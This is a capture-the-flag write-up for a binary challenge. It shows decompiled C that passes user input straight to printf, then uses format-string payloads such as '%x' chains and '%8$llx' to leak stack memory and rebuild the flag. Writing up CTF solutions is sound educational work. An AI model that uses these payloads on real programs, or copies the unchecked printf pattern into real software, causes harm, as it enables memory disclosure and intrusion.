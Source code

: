 # Readme | pwn 150

`Read me to get the flag.`

# Investigation
I opened the attached binary file in Ghidra again, and decompiled to C.

```
void vuln(void)

{
  FILE *__stream;
  long in_FS_OFFSET;
  char flag [32];
  char my_name [40];
  long overflow_gaurd;

  overflow_gaurd = *(long *)(in_FS_OFFSET + 0x28);
  __stream = fopen("flag.txt","r");
  fgets(flag,0x1c,__stream);
  fclose(__stream);
  puts("hello, what\'s your name?");
  fgets(my_name,0x1e,stdin);
  printf("hello ");
  printf(my_name);
  if (overflow_gaurd != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    exit_with_1();
  }
  return;
}

```

I am not very familar with PWN challenges, but we have a `printf` and an `fgets` that draw the eye, along side that `__stream`. Normally simple buffer overflows occur when you read into a buffer that is too small, but here you can see I've named a variable `overflow_gaurd`, since if we corrupt that variable we get locked out.

I began to research any vulnerabilities with `printf` and came across an excellent resource: [CTF101](https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/)

# Format String vulnerability
A very Interesting issue, where unchecked user input can access local variables and even pop variables from the stack. Scary stuff.

Let's try out some things:

```
hello, what's your name?
%x.%x.%x.%x
hello f6385880.0.0.6
```

Interesting, but it also looks a little like garbage. Values are output in hex, which makes that `ö8X`.

Let's try some more:
```
%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.
hello b8ae1190.0.0.6.6.0.dea422a0.66746364.5f30675f.6d30735f%

```
Seemingly more garbage: `ftcd_0g_m0s_`

Another option explained allows you to enumerate through the values, so let's try that out. The example starts at 7, so let's try that

```
hello, what's your name?
%7$llx
hello 5596bde722a0
-> which is "U½ç"
```

```
%8$llx
77306e7b66746364
-> which is "w0n{ftcd"
```

....wait a second. that looks like the start of a flag. You can actually see it aswell, I figured it was garbage, but the `{` looks promising.

Let's keep going:

```
%8$llx
77306e7b66746364
w0n{ftcd

%9$llx
646133725f30675f
da3r_0g_

%10$llx
30625f656d30735f
0b_em0s_

%11$llx
7d5600356b30
}5k0

{5k00b_em0s_da3r_0g_w0n}ftcd

```
`{5k00b_em0s_da3r_0g_w0n}ftcd`
Which reversed is the flag `dctf{n0w_g0_r3ad_s0me_b00k5}`
